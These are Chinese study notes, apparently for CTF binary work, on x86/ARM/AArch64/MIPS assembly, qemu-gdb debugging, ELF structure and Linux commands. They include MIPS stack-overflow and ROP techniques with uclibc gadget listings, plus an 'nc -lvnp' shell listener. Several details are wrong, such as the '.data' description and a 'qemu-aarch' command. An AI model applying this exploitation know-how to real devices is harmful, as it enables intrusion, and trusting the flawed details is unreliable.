（2） 0 地址字单元中存放的字型数据是多少？
（3） 2 地址单元中存放的字节型数据是多少？
（4） 2 地址字单元中存放的字型数据是多少？
（5） 1 地址字单元中存放的字型数据是多少？

答案一目了然，分别是20H、4E20H、12H、0012H、124EH。

### 汇编程序


```

assume cs:codesg ;将用作代码段的段codesg和段寄存器cs联系起来。

codesg segment ;定义一个段，段的名称为“codesg”，这个段从此开始
			   ;codesg是一个标号，作为一个段的名称，最终被编译连接成一个段的段地址

	mov ax, 0123H
	mov bx, 0456H 
	add ax, bx
	add ax, ax 
	
	mov ax, 4c00H 
	int 21H ;这两条指令实现程序的返回
	
codesg ends ;名称为“codesg”的段到此结束

end ;编译器在编译汇编程序的过程中，碰到了伪指令end，结束对源程序的编译


```


```
assume cs:code,ds:data,ss:stack 

data segment 
	dw 0123h,0456h,0789h,0abch,0defh,0fedh,0cbah,0987h ;0-15单元
data ends 

stack segment 
	dw 0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0 ;0-31单元
stack ends 

code segment 
	start:	mov ax, stack;将名称为“stack”的段的段地址送入ax
			mov ss, ax
			mov sp, 20h  ;设置栈顶ss:sp指向stack:20。 20h = 32d
			
			mov ax, data ;将名称为“data”的段的段地址送入ax
			mov ds, ax   ;ds指向data段
			
			mov bx, 0    ;ds:bx指向data段中的第一个单元
			
			mov cx, 8
	s:	    push [bx]
			add bx, 2
			loop s       ;以上将data段中的0~15单元中的8个字型数据依次入栈
			
			mov bx, 0
			
			mov cx, 8
	s0:		pop [bx]
			add bx, 2
			loop s0      ;以上依次出栈8个字型数据到data段的0~15单元中
			
			mov ax, 4c00h 
			int 21h 
code ends
end start
;“end start”说明了程序的入口，这个入口将被写入可执行文件的描述信息，
;可执行文件中的程序被加载入内存后，CPU的CS:IP被设置指向这个入口，从而开始执行程序中的第一条指令

```


## arm


ARM是一个RISC（精简指令集计算）处理器，因此具有简化的指令集（100条指令或更少）和比CISC更多的通用寄存器。与英特尔不同，ARM 使用仅在寄存器上运行的指令，并使用 Load/Store 内存模型进行内存访问，这意味着只有 Load/Store 指令才能访问内存。这意味着在 ARM 上的特定内存地址递增 32 位值需要三种类型的指令（加载、递增和存储），首先将特定地址的值加载到寄存器中，在寄存器中递增，然后将其从寄存器存储回存储器。


#### 寄存器

|             #             | Alias | Purpose                         |
| :-----------------------: | :---- | :------------------------------ |
|            R0             | –     | General purpose                 |
|            R1             | –     | General purpose                 |
|            R2             | –     | General purpose                 |
|            R3             | –     | General purpose                 |
|            R4             | –     | General purpose                 |
|            R5             | –     | General purpose                 |
|            R6             | –     | General purpose                 |
|            R7             | –     | Holds Syscall Number            |
|            R8             | –     | General purpose                 |
|            R9             | –     | General purpose                 |
|            R10            | –     | General purpose                 |
|            R11            | FP    | Frame Pointer                   |
| Special Purpose Registers |       |                                 |
|            R12            | IP    | Intra Procedural Call           |
|            R13            | SP    | Stack Pointer                   |
|            R14            | LR    | Link Register                   |
|            R15            | PC    | Program Counter                 |
|           CPSR            | –     | Current Program Status Register |


|   ARM    |                 Description                 |           x86           |
| :------: | :-----------------------------------------: | :---------------------: |
|    R0    |               General Purpose               |           EAX           |
|  R1-R5   |               General Purpose               | EBX, ECX, EDX, ESI, EDI |
|  R6-R10  |               General Purpose               |            –            |
| R11 (FP) |                Frame Pointer                |           EBP           |
|   R12    |            Intra Procedural Call            |            –            |
| R13 (SP) |                Stack Pointer                |           ESP           |
| R14 (LR) |                Link Register                |            –            |
| R15 (PC) | <- Program Counter / Instruction Pointer -> |           EIP           |
|   CPSR   |    Current Program State Register/Flags     |         EFLAGS          |


#### 指令

| Instruction | Description            | Instruction | Description                   |
| :---------: | :--------------------- | :---------: | :---------------------------- |
|     MOV     | Move data              |     EOR     | Bitwise XOR                   |
|     MVN     | Move and negate        |     LDR     | Load                          |
|     ADD     | Addition               |     STR     | Store                         |
|     SUB     | Subtraction            |     LDM     | Load Multiple                 |
|     MUL     | Multiplication         |     STM     | Store Multiple                |
|     LSL     | Logical Shift Left     |    PUSH     | Push on Stack                 |
|     LSR     | Logical Shift Right    |     POP     | Pop off Stack                 |
|     ASR     | Arithmetic Shift Right |      B      | Branch                        |
|     ROR     | Rotate Right           |     BL      | Branch with Link              |
|     CMP     | Compare                |     BX      | Branch and eXchange           |
|     AND     | Bitwise AND            |     BLX     | Branch with Link and eXchange |
|     ORR     | Bitwise OR             |   SWI/SVC   | System Call                   |


寄存器规则

1. 子程序间通过寄存器**R0～R3**来**传递参数**。这时，寄存器R0～R3可记作arg0～arg3。**被调用的子程序在返回前无需恢复寄存器R0～R3的内容，R0被用来存储函数调用的返回值**。
2. 在子程序中，使用寄存器**R4～R11**来**保存局部变量**。这时，寄存器R4～R11可以记作var1～var8。如果在子程序中使用了寄存器v1～v8中的某些寄存器，则**子程序进入时必须保存这些寄存器的值，在返回前必须恢复这些寄存器的值**。**R7经常被用作存储系统调用号，R11存放着帮助我们找到栈帧边界的指针，记作FP**。在Thumb程序中，通常只能使用寄存器R4～R7来保存局部变量。
3. 寄存器**R12**用作**过程调用中间临时寄存器**，记作IP。在子程序之间的连接代码段中常常有这种使用规则。
4. 寄存器**R13**用作**堆栈指针**，记作SP。在子程序中寄存器R13不能用作其他用途。**寄存器SP在进入子程序时的值和退出子程序时的值必须相等**。
5. 寄存器**R14**称为**连接寄存器**，记作LR。它用于**保存子程序的返回地址**。如果在子程序中保存了返回地址，寄存器R14则可以用作其他用途。
6. 寄存器**R15**是**程序计数器**，记作PC。它不能用作其它用途。当执行一个分支指令时，**PC存储目的地址。在程序执行中，ARM模式下的PC存储着当前指令加8(两条ARM指令后)的位置，Thumb(v1)模式下的PC存储着当前指令加4(两条Thumb指令后)的位置**。


#### AArch64 

需要指出的是，AArch64架构并不是ARM-32架构的简单扩展，他是在ARMv8引入的一种全新架构。

寄存器变化

AArch拥有31个通用寄存器，系统运行在64位状态下的时候名字叫Xn，运行在32位的时候就叫Wn。

| 寄存器  | 别名 |                             意义                             |
| :-----: | :--: | :----------------------------------------------------------: |
|   SP    |  –   |                     Stack Pointer:栈指针                     |
|   x30   |  LR  |  Link Register:在调用函数时候，保存下一条要执行指令的地址。  |
|   x29   |  FP  |              Frame Pointer:保存函数栈的基地址。              |
| x19-x28 |  –   |         Callee-saved registers（含义见上面术语解释）         |
|   x18   |  –   |              平台寄存器，有特定平台解释其用法。              |
|   x17   | IP1  |     The second intra-procedure-call temporary register……     |
|   x16   | IP0  |     The first intra-procedure-call temporary register……      |
| x9-x15  |  –   |                          临时寄存器                          |
|   x8    |  –   |              在一些情况下，返回值是通过R8返回的              |
|  x0-x7  |  –   |               在函数调用过程中传递参数和返回值               |
|  NZCV   |  –   | 状态寄存器：N（Negative）负数 Z(Zero) 零 C(Carry) 进位 V(Overflow) 溢出 |

指令集变化

1. 除了批量加载寄存器指令 LDM/STM, PUSH/POP, 使用STP/LDP 一对加载寄存器指令代替。
2. 没有提供访问CPSR的单一寄存器，但是提供访问PSTATE的状态域寄存器。
3. 64没有协处理器的概念，没有协处理器指令MCR,MRC。
4. 相比32少了很多条件执行指令，只有条件跳转和少数数据处理这类指令才有条件执行。


	// 1. ldr地址偏移模式
		mov x1, 0x80000
		mov x3, 16
	
	/* 读取0x80000地址的值, 到x0寄存器*/
	ldr x0, [x1]
	
	/* 读取0x80000+8地址的值*/
	ldr x2, [x1, #8]
	
	/* 读取x1+x3地址=0x80000+16的值*/
	ldr x4, [x1, x3]
	
	/* 读取(x1+ x3<<3) =0x80080地址的值*/
	ldr x5, [x1, x3, lsl #3]
	
	ret


​	变基模式
​	LDR X0,[X1, #8] //前变基模式，先更新x1=x1+8，再加载x1地址的值到x0
​	LDR X0,[X1],#8   //后变基模式，先读取x1的地址处的值到x0, 再更新x1=x1+8
​	
​	STR X2,[X1, #8] //前变基模式，先更新x1=x1+8，再存储x2的值到x1地址处
​	LDR X2,[X1],#8   //后变基模式，先存储x2的值到x1地址处, 再更新x1=x1+8


**stp：** 入栈指令（`str` 的变种指令，可以同时操作两个寄存器），如：

```
stp x29, x30, [sp, #0x10] 	; 将 x29, x30 的值存入 sp 偏移 16 个字节的位置 
复制代码
```

**ldp：** 出栈指令（`ldr` 的变种指令，可以同时操作两个寄存器），如：

```
ldp x29, x30, [sp, #0x10] 	; 将 sp 偏移 16 个字节的值取出来，存入寄存器 x29 和寄存器 x30 
```


#### 调试

如果程序是静态链接并且是32位 arm架构的话，输入`qemu-arm` ./程序名

如果程序是静态链接并且是aarch64架构的话，输入`qemu-aarch` ./程序名

如果程序是动态链接且是32位 arm架构的话，输入`qemu-arm -L /usr/arm-linux-gnueabihf` ./程序名

如果程序是动态链接且是aarch64架构的话，输入`qemu-aarch64 -L /usr/aarch64-linux-gnu` ./程序名


**启动调试和运行程序的命令很相似，仅仅是加了一个参数-g 然后后面跟一个端口**。

比如程序是动态链接的32位 arm架构的话，输入qemu-arm -g 1234 -L /usr/aarch64-linux-gnu ./程序名

这个1234是你指定的端口，指定别的端口也可以。然后参照运行程序那四个命令以及上面这个命令，就可以依次类推出调试aarch64架构的命令了。

此时再打开另一个终端，输入gdb-multiarch（**必须是用pwndbg，如果是peda的话，是没法正常调试的**）

然后再输入target remote localhost:1234 连接到刚才开的那个端口。


先使用Rizzo进行符号表修复，首先用IDA加载/usr/arm-linux-gnueabihf/lib/libc-2.24.so。

在IDA的file—>Produce file—>Rizzo signature file中使用Rizzo导出符号表文件。

然后加载题目文件，在IDA的file—>Load file—>Rizzo signature file中使用Rizzo导出加载我们刚才导出的符号表文件


## MIPS

#### 寄存器

| *Register* *Number*寄存器编号 | *Alternative*  *Name*寄存器名 | *Description*寄存器用途                            |
| ----------------------------- | ----------------------------- | -------------------------------------------------- |
| 0                             | zero                          | *the value 0*永远返回零                            |
| 1                             | $at                           | 汇编保留寄存器（不可做其他用途）                   |
| 2-3                           | $v0 - $v1                     | values ，存储表达式或者是函数的返回值              |
| 4-7                           | $a0 - $a3                     | arguments，作为函数的前4个参数                     |
| 8-15                          | $t0 - $t7                     | temporaries，供程序使用的临时寄存器                |
| 16-23                         | $s0 - $s7                     | saved values，子函数使用时需要保存寄存器的值       |
| 24-25                         | $t8 - $t9                     | temporaries，供程序使用的临时寄存器，补充$t0 - $t7 |
| 26-27                         | $k0 - $k1                     | 保留，中断处理函数使用                             |
| 28                            | $gp                           | global pointer，全局指针                           |
| 29                            | $sp                           | stack pointer ，栈指针，指向的是栈顶               |
| 30                            | $s8/$fp                       | saved value，保存栈指针                            |
| 31                            | $ra                           | return address，返回地址                           |

MIPS32定义了3个特殊的寄存器，分别是PC（程序计数器）、HI（乘除结果高位寄存器）和LO（乘除结果低位寄存器）。在进行乘法运算时，HI和LO保存乘法运算结果，其中HI储存高32位，LO储存高低32位；除法运算时，HI保存余数，LO保存商。

**MIPS里没有状态码。CPU状态寄存器或内 部都不包含任何用户程序计算的结果状态信息。**


寻址方式：寄存器寻址、立即数寻址、寄存器相对寻址和PC相对寻址。


####  指令

指令特点：

- 固定4字节指令长度。
- 内存中的数据访问（load/store）必须严格对齐。
- MIPS默认不把子函数的返回地址存放到栈中，而是存放到$ra寄存器中。
- 流水线效应。MIPS采用了高度的流水线，其中一个重要的效应时分支延迟效应。


`MIPS`架构存在“流水线效应”，简单来说，就是本应该顺序执行的几条命令却同时执行了，其还存在缓存不一致性（`cache incoherency`）的问题。


 **“流水线效应”** ，最常见的就是跳转指令（如`jalr`）导致的**分支延迟效应**，任何一个分支跳转语句后面的那条语句叫做**分支延迟槽**，当它跳转指令填充好跳转地址，还没来得及跳转过去的时候，跳转指令的下一条指令（分支延迟槽）就已经执行了，可以认为是**它会先执行跳转指令的后一条指令，然后再跳转**。

 

**“缓存不一致性”** 指的是：指令缓存区（`Instruction Cache`）和数据缓存区（`Data Cache`）两者的同步需要一个时间来同步，常见的就是，比如我们将`shellcode`写入栈上，此时这块区域还属于数据缓存区，如果我们此时像`x86_64`架构一样，直接跳转过去执行，就会出现问题，因此，我们**需要调用`sleep`函数**，先停顿一段时间，给它时间从数据缓存区转成指令缓存区，然后再跳转过去，才能成功执行。当然，有时候可能直接跳转过去也不会出错，这原因就比较多了，可能是由于两个缓冲区已经有足够时间同步，也有可能是和硬件层面有关的一些原因所导致的，但是保险来说，还是最好`sleep`一下。


MIPS指令集有三种指令格式：R型指令，I型指令，J型指令（所有指令都是32 位长）

.png)


算数运算

| 指令 | 示例               | 含义                                |
| ---- | ------------------ | :---------------------------------- |
| 加法 | add  $s1, $s2, $s3 | $s1 = $s2 + $s3                     |
| 减法 | sub  $s1, $s2, $s3 | $s1 = $s2 - $s3                     |
| 乘法 | mult  $s1, $s2     | "$s1*$s2"的结果储存到HI和LO中       |
| 除法 | div  $s1, $s2      | $LO = $s1/$s2   ; $HI = $s1 mod $s2 |


数据传输

| 指令         | 示例                | 含义                                 |
| ------------ | ------------------- | :----------------------------------- |
| 赋值         | move  $s1, $s2      | $s1 =  $s2                           |
|              | la   $s1, val_1     | $s1 = val_1表示的地址                |
|              | li    $s1, 40       | $s1 = 40                             |
| 取字         | lw  $s1, 20 ($s2)   | $s1 = Menory[$s2 + 20]               |
| 存字         | sw  $s1, 20 ($s2)   | Menory[$s2 + 20] = $s1               |
| 取半字       | lh   $s1, 20 ($s2)  | $s1 = Menory[$s2 + 20]               |
| 取无符号半字 | lhu   $s1, 20 ($s2) | $s1 = Menory[$s2 + 20]               |
| 存半字       | sh  $s1, 20 ($s2)   | Menory[$s2 + 20] = $s1               |
| 取字节       | lb  $s1, 20 ($s2)   | $s1 = Menory[$s2 + 20]               |
| 取无符号字节 | lbu  $s1, 20 ($s2)  | $s1 = Menory[$s2 + 20]               |
| 存字节       | sb  $s1, 20 ($s2)   | Menory[$s2 + 20] = $s1               |
| 取链接字     | ll  $s1, 20 ($s2)   | $s1 = Menory[$s2 + 20]               |
| 存条件字     | sc  $s1, 20 ($s2)   | Menory[$s2 + 20] = $s1; $s1 = 0 or 1 |
| 取立即数高位 | lui  $s1, 20        | $s1 = 20 * 2的16次方                 |


逻辑运算

| 指令     | 示例               | 含义             |
| -------- | ------------------ | :--------------- |
| 与       | and  $s1, $s2, $s3 | $s1 = $s2 & $s3  |
| 或       | or  $s1, $s2, $s3  | $s1 = $s2 \| $s3 |
| 逻辑左移 | sll  $s1, $s2,10   | $s1 = $2 << 10   |
| 逻辑右移 | srl  $s1, $s2,10   | $s1 = $2 >> 10   |


类比较

| 示例                  | 含义                                     |
| --------------------- | ---------------------------------------- |
| slt  $v0, $a0, $s0    | $v0 = $a0 < $s0 ? 1: 0  （有符号数比较） |
| slti  $v0, $a0, 255   | $v0 = $a0 < 255 ? 1: 0  （有符号数比较） |
| sltu  $v0, $a0, $s0   | $v0 = $a0 < $s0 ? 1: 0  （无符号数比较） |
| sltiu  $v0, $a0, $255 | $v0 = $a0 < 255 ? 1: 0  （无符号数比较） |


分支跳转

| 指令         | 示例                   | 含义                              |
| ------------ | ---------------------- | :-------------------------------- |
| 无条件跳转   | b   target             | 无条件分支跳转至target标签处      |
| 相等跳转     | beq  $s1, $s2,target   | if($s1== $s2) 跳转至target标签处  |
| 不相等跳转   | bne  $s1, $s2,target   | if($s1!= $s2) 跳转至target标签处  |
| 小于跳转     | blt    $s1, $s2,target | if($s1 < $s2) 跳转至target标签处  |
| 小于等于跳转 | ble    $s1, $s2,target | if($s1 <= $s2) 跳转至target标签处 |
| 大于跳转     | bgt    $s1, $s2,target | if($s1 > $s2) 跳转至target标签处  |
| 大于等于跳转 | bge   $s1, $s2,target  | if($s1 >= $s2) 跳转至target标签处 |


跳转

| 示例         | 含义                                      |
| ------------ | :---------------------------------------- |
| j   target   | 无条件跳转至target标签处                  |
| jr   $s1     | 跳转至$t3寄存器指向的地址处               |
| jal   target | 跳转至target标签处，并保存返回地址到$ra中 |


系统调用

syscall指令

#### MIPS栈溢出

而MIPS32架构的堆栈与传统PC的架构复杂指令系统不同，大多数采用Linux嵌入式操作系统的路由器采用的是MIPS指令系统，该指令系统属于精简指令系统。MIPS32架构的函数调用与x86架构有很大的差别，具体有以下几个方面:

1. 栈操作:MIPS32架构堆栈与X86的一样，都是向低地址增长的。但是在MIPS32架构中没有EBP，进入一个函数时，需要将当前栈指针向下移动n比特，这个大小为n比特的存储空间就是此函数的栈。此后，栈指针便不再移动，只能在函数返回时将栈指针加上这个偏移量恢复栈现场。由于不能随便移动栈指针，所以寄存器压栈和出栈都必须制定偏移量。
2. 调用:如果函数A调用函数B,调用者函数会在自己的栈定预留一部分空间来保存被调用者的参数，我们称之为调用参数空间。
3. 参数传递方式:前四个传入的参数通过$a0-$a3传递。有些函数的参数可能会超过四个，此时多余的参数会被放入到调用参数空间。x86架构下的所有参数都是通过堆栈传递的。
4. 返回地址:在x86架构中，使用call指令调用函数时，会先将当前执行位置压入堆栈。MIPS的调用指令把返回地址直接存入$RA寄存器而不是堆栈中。


如果一个函数A中不再调用其他任何函数，那么当前函数A就是一个叶子函数，否则函数A就是一个非叶子函数。

在MIPS32架构中，函数被分为两种即叶子函数和非叶子函数。MIPS函数的调用过程与x86的不同。在x86的体系结构下，函数A调用函数B，总是先将函数A的地址压入栈中，在函数B执行完毕返回A函数时，再从堆栈中弹出返回函数A的地址，然后返回A继续执行。而在MIPS架构下，叶子函数的返回地址是直接放在 ra 寄存器中，而非叶子函数需要调用另外的函数，这里的差异就造成了非叶子函数需要把当前的返回地址暂时存放在栈上。


对于非叶子函数来说，如果存在局部变量溢出，就可能导致堆栈上的返回地址被覆盖，从而控制执行流。因此这种情况下缓冲区溢出是可以被利用的。但是对于叶子函数来说，它的返回地址是没有放置在栈上，所以我们无法修改对应的返回地址。但是这不意味者叶子函数的缓冲区溢出就完全无法利用。如果缓冲区溢出覆盖的区域足够大，我们是有可能覆盖到上一层调用该函数的函数的返回地址的。所以，当非叶子函数中存在缓冲区溢出漏洞时，程序上的执行流程也是存在被劫持的可能性的。


**系统调用**


系统调用的过程，系统调用号是存储在 v0 寄存器，赋值好参数($a0、$a1、$a2)，然后使用 syscall 指令触发中断。

```c
syscall($v0, $a0, $a1, $a2...);
汇编：
li $a0, 0
li $v0, 4001	# exit系统调用号
syscall
```

系统调用号

execve的系统调用号4011

read的系统调用号4003

write的系统调用号4004

open的系统调用号4005


**延迟绑定**


MIPS动态库中的外部符号调用，是依赖.got段和.MIPS.stubs段来共同实现的。

 .got段中保存着外部符号的地址，但由于采用了延迟绑定技术，某外部符号在第一次被调用前，其地址是未知的。

got中的未决议符号项内，先指向了.MIPS.stubs中的一段指令（每个符号都对应一段单独的指令），这段指令的作用是跳转至符号解析函数_dl_runtime_resolve。

 .got段的第一项比较特殊，它保存的符号正是函数"_dl_runtime_resolve"，用objdump查看时此项为0，但运行起来之后，会被ld.so填充进`_dl_runtime_resolve`的地址。


全局寄存器`$gp`从取了个偏移值（这个偏移值是相对于该函数地址的）之后，又与`$t9`寄存器相加，此时的 **`$t9`寄存器要求是该函数的首地址** 才行，也就是说，我们跳转到某个函数的时候，一定要通过`jalr $t9`类似的`gadget`进行跳转才行。

t9 寄存器总是保存的是函数的开头地址，若通过控制 ra 直接劫持到目标函数，**t9 寄存器没有变化，还是原来调用过的函数的地址**。


uclibc中的gadget

**`scandir` 函数的结尾的部分**

```
.text:0000AFE0 3C 00 BF 8F                   lw      $ra, 0x18+var_s24($sp)
.text:0000AFE4 38 00 BE 8F                   lw      $fp, 0x18+var_s20($sp)
.text:0000AFE8 34 00 B7 8F                   lw      $s7, 0x18+var_s1C($sp)
.text:0000AFEC 30 00 B6 8F                   lw      $s6, 0x18+var_s18($sp)
.text:0000AFF0 2C 00 B5 8F                   lw      $s5, 0x18+var_s14($sp)
.text:0000AFF4 28 00 B4 8F                   lw      $s4, 0x18+var_s10($sp)
.text:0000AFF8 24 00 B3 8F                   lw      $s3, 0x18+var_sC($sp)
.text:0000AFFC 20 00 B2 8F                   lw      $s2, 0x18+var_s8($sp)
.text:0000B000 1C 00 B1 8F                   lw      $s1, 0x18+var_s4($sp)
.text:0000B004 18 00 B0 8F                   lw      $s0, 0x18+var_s0($sp)
.text:0000B008 08 00 E0 03                   jr      $ra
.text:0000B00C 40 00 BD 27                   addiu   $sp, 0x40
```


```
mipsrop.find("move $t9,$s3")


xdr_union函数结尾部分

.text:00021C34 21 C8 60 02                   move    $t9, $s3
.text:00021C34
.text:00021C38
.text:00021C38                               loc_21C38:                               # CODE XREF: xdr_union+6C↑j
.text:00021C38 2C 00 BF 8F                   lw      $ra, 0x18+var_s14($sp)
.text:00021C3C 28 00 B4 8F                   lw      $s4, 0x18+var_s10($sp)
.text:00021C40 24 00 B3 8F                   lw      $s3, 0x18+var_sC($sp)
.text:00021C44 20 00 B2 8F                   lw      $s2, 0x18+var_s8($sp)
.text:00021C48 1C 00 B1 8F                   lw      $s1, 0x18+var_s4($sp)
.text:00021C4C 18 00 B0 8F                   lw      $s0, 0x18+var_s0($sp)
.text:00021C50 08 00 20 03                   jr      $t9
.text:00021C54 30 00 BD 27                   addiu   $sp, 0x30
.text:00021C54
.text:00021C58                                # ---------------------------------------------------------------------------
.text:00021C58
.text:00021C58                               loc_21C58:                               # CODE XREF: xdr_union+48↑j
.text:00021C58                                                                        # xdr_union+80↑j
.text:00021C58 2C 00 BF 8F                   lw      $ra, 0x18+var_s14($sp)
.text:00021C5C 28 00 B4 8F                   lw      $s4, 0x18+var_s10($sp)
.text:00021C60 24 00 B3 8F                   lw      $s3, 0x18+var_sC($sp)
.text:00021C64 20 00 B2 8F                   lw      $s2, 0x18+var_s8($sp)
.text:00021C68 1C 00 B1 8F                   lw      $s1, 0x18+var_s4($sp)
.text:00021C6C 18 00 B0 8F                   lw      $s0, 0x18+var_s0($sp)
.text:00021C70 21 10 00 00                   move    $v0, $zero
.text:00021C74 08 00 E0 03                   jr      $ra
.text:00021C78 30 00 BD 27                   addiu   $sp, 0x30
```


# Linux

Linux终端指令

```
apt-get update
apt install sudo

sudo apt-get update
sudo apt-get upgrade

mkdir
cp -r /home/x/Desktop/python38.dll  /opt/IDA_Pro_7.7
rm -rf
chown x:x -R IDA_Pro_7.7/
chmod a+x file


tar cfz Python3.tgz Python3
tar xf Python3.tgz

find ./ -name '*.cgi'
which grep


git config --global http.proxy socks5://127.0.0.1:1088
git config --global --unset https.proxy


echo 'export https_proxy="http://127.0.0.1:8888/"' >> ~/.bashrc
proxychains git clone https://chromium.googlesource.com/chromium/tools/depot_tools.git

ifconfig

nc -lvnp 8888

netstat -napt #TCP 的连接状态

route -n #查看当前系统的路由表

curl --insecure https://192.168.2.2

#查看进程
ps aux
pstree -aup

#
ln是 linux 中一个非常重要命令。它的功能是为某一个文件在另外一个位置建立一个同步的链接，这个命令最常用的参数是-s,具体用法是： 

ln -s 源文件 目标文件  -s 是 symbolic的意思。 
例：ln -s /lib/lsb  /usr/lj
即：在usr目录下建立指向/lib/lsb目录的lj文件。
ll 查看软连接


#
netstat命令参数：

　　-t : 指明显示TCP端口

　　-u : 指明显示UDP端口

　　-l : 仅显示监听套接字(所谓套接字就是使应用程序能够读写与收发通讯协议(protocol)与资料的程序)

　　-p : 显示进程标识符和程序名称，每一个套接字/端口都属于一个程序。

　　-n : 不进行DNS轮询，显示IP(可以加速操作)

即可显示当前服务器上所有端口及进程服务，于grep结合可查看某个具体端口及服务情况··

netstat -ntlp//查看当前所有tcp端口·

netstat -ntulp |grep80//查看所有80端口使用情况·

netstat -an | grep3306//查看所有3306端口使用情况·

查看一台服务器上面哪些服务及端口

netstat -lanp

查看一个服务有几个端口。比如要查看mysqld

ps -ef |grep mysqld


#dmesg
dmesg（英文全称：display message）命令用于显示开机信息。
kernel 会将开机信息存储在 ring buffer 中。开机时来不及查看信息，可利用 dmesg 来查看。开机信息亦保存在 /var/log 目录中，名称为 dmesg 的文件里。

```


```text
tmux
Ctrl  + B， 松开以后，输入冒号，输入set -g mouse on 回车
```


#### ELF文件




#####  ELF文件类型

| ELF文件类型        | 说明                                                         | 实例               |
| ------------------ | ------------------------------------------------------------ | ------------------ |
| Relocatable File   | 包含例代码和数据，可以被链接成可执行文件或共享目标文件       | Linux下的.o文件    |
| Executable File    | 包含可以直接执行的程序，ELF可执行文件，一般没有扩展名        | /bin/bash文件      |
| Shared Object File | 包含代码和数据，和其他目标文件链接成新的目标文件，和可执行文件链接作为进程映像的一部分来允许 | Linux下的.so文件   |
| Core Dump File     | 进程意外终止时可以产生的文件，存储着该进程的内存空间中的内容等信息 | Linux下的core dump |

##### 	ELF文件的结构


链接视角，通过节（section）来进行划分；运行视角，通过段（segment）来进行划分。


ELF文件头：位于文件最开始的位置，包含文件的一些基本信息，例如ELF文件类型，版本/ABI版本、目标机器、程序入口、段表和节表的位置和长度等。

节头表：一个文件包含很多节，这些节保证到节头表中，表中记录了节的名字、长度、偏移、读写权限等信息。


除了 ELF 头部表以外,其他节区和段都没有规定的顺序
目标文件中的每个节区都有对应的节区头部描述它,反过来,有节区头部不意味着有节区
每个节区占用文件中一个连续字节区域(这个区域可能长度为 0)。
文件中的节区不能重叠,不允许一个字节存在于两个节区中的情况发生。
目标文件中可能包含非活动空间(INACTIVE SPACE)。这些区域不属于任何头部和节区,其内容未指定。
以“.”开头的节区名称是系统保留的。应用程序可以使用没有前缀的节区名称,以避免与系统节区冲突。
目标文件中也可以包含多个名字相同的节区。
Section和Segment的区别和联系
可执行文件中，一个program header描述的内容称为一个段（segment）。Segment包含一个或者多个section
可执行程序中的几个段:

| 名称                           | 内容                                                         |
| ------------------------------ | ------------------------------------------------------------ |
| 代码节                         | 可执行代码、字符串常量                                       |
| 数据节                         | 已初始化全局变量、已初始化全局静态变量、局部静态变量、常量数据 |
| BSS节                          | 未初始化全局变量，未初始化全局静态变量                       |
| 当装载至内存中后需要如下两个段 |                                                              |
| 栈                             | 局部变量、函数参数                                           |
| 堆                             | 动态内存分配                                                 |


section类型:

| 名称       | 类型         | 属性                   | 含义                                                         |
| :--------- | :----------- | :--------------------- | :----------------------------------------------------------- |
| .bss       | SHT_NOBITS   | SHF_ALLOC SHF_WRITE    | 包含将出现在程序的内存映像中的为初始化数据。根据定义,当程序开始执行,系统将把这些数据初始化为 0。此节区不占用文件空间。 |
| .data      | SHT_PROGBITS | (无)                   | 包含版本控制信息。                                           |
| .data1     | SHT_PROGBITS | SHF_ALLOC SHF_WRITE    | 这些节区包含初始化了的数据,将出现在程序的内存映像中。        |
| .debug     | SHT_PROGBITS | (无)                   | 此节区包含用于符号调试的信息。                               |
| .dynamic   | SHT_DYNAMIC  |                        | 此节区包含动态链接信息。节区的属性将包含 SHF_ALLOC 位。是否 SHF_WRITE 位被设置取决于处理器。 |
| .dynstr    | SHT_STRTAB   | SHF_ALLOC              | 此节区包含用于动态链接的字符串,大多数情况下这些字符串代表了与符号表项相关的名称。 |
| .dynsym    | SHT_DYNSYM   | SHF_ALLOC              | 此节区包含了动态链接符号表。                                 |
| .fini      | SHT_PROGBITS | SHF_ALLOCSHF_EXECINSTR | 此节区包含了可执行的指令,是进程终止代码的一部分。程序正常退出时,系统将安排执行这里的代码。 |
| .got       | SHT_PROGBITS |                        | 此节区包含全局偏移表。                                       |
| .hash      | SHT_HASH     | SHF_ALLOC              | 此节区包含了一个符号哈希表.                                  |
| .init      | SHT_PROGBITS | SHF_ALLOCSHF_EXECINSTR | 此节区包含了可执行指令,是进程初始化代码的一部分。当程序开始执行时,系统要在SHF_EXECINSTR 开始调用主程序入口之前(通常指 C 语言的 main 函数)执行这些代码。 |
| .interp    | SHT_PROGBITS |                        | 此节区包含程序解释器的路径名。如果程序包含一个可加载的段,段中包含此节区,那么节区的属性将包含 SHF_ALLOC 位,否则该位为 0。 |
| .line      | SHT_PROGBITS |                        | 此节区包含符号调试的行号信息,其中描述了源程序与机器指令之间的对应关系。其内容是未定义的。 |
| .note      | SHT_NOTE     |                        | 此节区中包含注释信息,有独立的格式。                          |
| .plt       | SHT_PROGBITS |                        | 此节区包含过程链接表(procedure linkage table)。              |
| .relname   | SHT_REL      |                        | 这些节区中包含了重定位信息。如果文件中包含可加载的段,段中有重定位内容,节区的属性将包含 SHF_ALLOC 位,否则该位 置 0。传统上 name 根据重定位所适用的节区给定。例如 .text 节区的重定位节区名字将是:.rel.text 或者 .rela.text。 |
| .rela name | SHT_RELA     |                        |                                                              |
| .rodata    | SHT_PROGBITS | SHF_ALLOC              | 这些节区包含只读数据,这些数据通常参与进程映像的不可写段。    |
| .rodata1   | SHT_PROGBITS | SHF_ALLOC              |                                                              |
| .shstrtab  | SHT_STRTAB   |                        | 此节区包含节区名称。                                         |
| .strtab    | SHT_STRTAB   |                        | 此节区包含字符串,通常是代表与符号表项相关的名称。如果文件拥有一个可加载的段,段中包含符号串表,节区的属性将包含 SHF_ALLOC 位,否则该位为 0。 |
| .symtab    | SHT_SYMTAB   |                        | 此节区包含一个符号表。如果文件中包含一个可加载的段,并且该段中包含符号表,那么节区的属性中包含SHF_ALLOC 位,否则该位置为 0。 |
| .text      | SHT_PROGBITS |                        | 此节区包含程序的可执行指令。                                 |

segment类型:

| 程序段类型 | 取值        | 说明                                                         |
| :--------- | :---------- | :----------------------------------------------------------- |
| PT_NULL    | 0           | 此数组元素未用。结构中其他成员都是未定义的。                 |
| PT_LOAD    | 1           | 此数组元素给出一个可加载的段,段的大小由 p_filesz 和 p_memsz描述。文件中的字节被映射到内存段开始处。如果 p_memsz 大于p_filesz,“剩余”的字节要清零。p_filesz 不能大于 p_memsz。可加载的段在程序头部表格中根据 p_vaddr 成员按升序排列。 |
